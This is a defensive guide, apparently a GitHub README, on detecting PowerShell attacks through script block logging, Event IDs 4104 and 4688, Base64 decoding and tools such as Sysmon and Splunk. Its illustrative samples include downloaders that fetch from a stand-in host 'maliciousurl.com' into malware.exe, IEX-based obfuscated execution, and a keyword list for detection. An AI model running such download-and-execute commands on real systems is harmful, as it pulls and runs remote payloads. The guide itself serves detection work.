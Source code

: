 <p align="center">
  <img src="https://media.giphy.com/media/3o7btPCcdNniyf0ArS/giphy.gif" alt="Log Searching">
</p>


# Detecting PowerShell Attacks by Analyzing Logs

**Guide written by Fazi**

This guide provides a step-by-step approach to detect PowerShell-based attacks by analyzing logs, identifying suspicious commands, and understanding attack patterns. It’s designed for SOC analysts and cybersecurity enthusiasts to trace malicious activities, such as script execution, through PowerShell logs.

---

## 📖 Overview

PowerShell is a powerful tool often exploited by attackers to execute malicious commands, such as fileless malware or remote code execution. By analyzing PowerShell logs, you can identify suspicious activities and respond to potential threats. This guide covers:

- Enabling PowerShell logging.
- Analyzing logs for malicious activity.
- Recognizing common attack patterns.
- Using tools to automate detection.

---

## 🛠️ Step 1: Set Up PowerShell Logging

To detect malicious activity, you must first enable **PowerShell Script Block Logging**. This ensures all executed commands are captured in logs for analysis.

### How to Enable Script Block Logging
You can enable logging via **Group Policy** or by running the following PowerShell command as an administrator:

```powershell
Set-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell" -Name "EnableScriptBlockLogging" -Value 1
```

### Why It’s Important

- **Captures All Commands**: Logs every PowerShell command executed, including obfuscated or encoded ones.
- **Facilitates Tracing**: Makes it easier to identify and investigate potential attacks.

---

## 🔍 Step 2: Locate and Analyze PowerShell Logs

With logging enabled, PowerShell activities are recorded in the Windows Event Viewer. Focus on specific Event IDs to uncover suspicious behavior.

### Where to Find Logs

- Open Event Viewer:
  - Press `Windows + R`, type `eventvwr.msc`, and press Enter.
  - Navigate to **Applications and Services Logs → Microsoft → Windows → PowerShell → Operational**.

### Key Event IDs to Monitor:
- **Event ID 4104**: Records every executed PowerShell command (script block logging).
- **Event ID 4688**: Logs process creation, useful for identifying if PowerShell was launched from an unusual location.

### How to Analyze Logs
- **Filter Logs**: In Event Viewer, filter by Event ID 4104 to focus on PowerShell command executions.
- **Look for Red Flags**:
  - **Base64-Encoded Commands**: Often used to hide malicious actions (e.g., `-EncodedCommand` or `-e` flag).
  - **Suspicious Command Patterns**: Look for the use of `Invoke-Expression (IEX)` or `Invoke-WebRequest` to download payloads.
  - **Execution from Unusual Directories**: If PowerShell is running from temporary folders instead of the default directory (`C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`), it could indicate suspicious behavior.

---

## 🚨 Step 3: Identify Malicious PowerShell Commands

Attackers often use specific PowerShell commands to execute malicious activities. Here are common patterns to watch for:

### Common Malicious Commands

- **Base64-Encoded Commands**: 
  Attackers encode commands to evade detection.
  Example:
  ```powershell
  powershell.exe -EncodedCommand <encoded_string>
  ```
  Action: Decode Base64 strings using online tools or PowerShell to reveal the original command.

- **Malicious Downloaders**:
  Commands that download and execute payloads from remote servers.
  Example:
  ```powershell
  Invoke-WebRequest -Uri 'http://maliciousurl.com' -OutFile 'malware.exe'
  ```
  or
  ```powershell
  (New-Object Net.WebClient).DownloadString('http://maliciousurl.com')
  ```
  Action: Investigate URLs for malicious activity using tools like VirusTotal.

- **Remote Command Execution**:
  Commands that enable remote control of a system.
  Example:
  ```powershell
  Invoke-Command -ComputerName <target> -ScriptBlock { <malicious_code> }
  ```
  or
  ```powershell
  Enter-PSSession -ComputerName <target>
  ```
  Action: Check for unauthorized remote access attempts.

- **Obfuscated Commands**:
  Commands hidden using environment variables or complex syntax.
  Example:
  ```powershell
  IEX ([String]::Join('', (Get-Item Env:Malicious).Value))
  ```
  Action: Analyze for hidden payloads or scripts.

---

## 🕵️‍♂️ Step 4: Investigate Suspicious Commands
When you identify a suspicious command, follow these steps to investigate further:

- **Decode Encoded Commands**:  
  If a command uses Base64 encoding, decode it to understand its intent.  
  Example: Use PowerShell to decode:
  ```powershell
  [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('<encoded_string>'))
  ```

- **Analyze Command Purpose**:  
  Does the command download a file? Check the URL’s reputation.  
  Does it execute a script? Investigate the script’s actions.

- **Check Execution Context**:  
  Was PowerShell launched from an unusual location?  
  Is the command part of a larger attack chain (e.g., paired with process creation in Event ID 4688)?
<p align="center">
  <img src="https://media.giphy.com/media/xT9IgzoKnwFNmISR8I/giphy.gif" alt="Suspicious Activity Detected">
</p>

---

## 🛠️ Step 5: Use Tools to Automate Detection
Manual log analysis can be time-consuming. Use these tools to streamline the process:

- **Sysmon**:  
  Captures detailed logs, including PowerShell command-line arguments.  
  Setup: Install Sysmon and configure it to log PowerShell events (Event ID 1 for process creation, Event ID 7 for image loading).  
  Use Case: Identify PowerShell executions with suspicious arguments.

- **Splunk or ElasticSearch**:  
  Aggregates logs from multiple systems for centralized analysis.  
  Setup: Ingest PowerShell logs and create dashboards to search for keywords like IEX, Invoke-WebRequest, or Base64 patterns.  
  Use Case: Detect patterns across a network, such as repeated malicious commands.

- **VirusTotal**:  
  Scan URLs or files downloaded by PowerShell commands to confirm malicious intent.  
  Use Case: Verify if a URL in an Invoke-WebRequest command leads to a known malicious site.

---

## ✅ Step 6: Conclusion and Best Practices
Detecting PowerShell attacks requires diligent monitoring of logs and a keen eye for suspicious patterns. Key takeaways:

- **Enable Script Block Logging**: Ensure all PowerShell commands are logged (Event ID 4104).
- **Monitor for Attack Signatures**: Look for encoded commands, suspicious keywords, and unusual execution locations.
- **Automate with Tools**: Use Sysmon, Splunk, or ElasticSearch to scale your detection efforts.

By following these steps, you can identify and respond to PowerShell-based attacks effectively, strengthening your SOC skills.


<p align="center">
  <img src="https://media.giphy.com/media/VbnUQpnihPSIgIXuZv/giphy.gif" alt="Automation Robot">
</p>
 ---

📧 **Contact Me**  
For questions or feedback, reach out to me:  
[Contact Fazi](mailto:f.sgamar222@gmail.com)
```
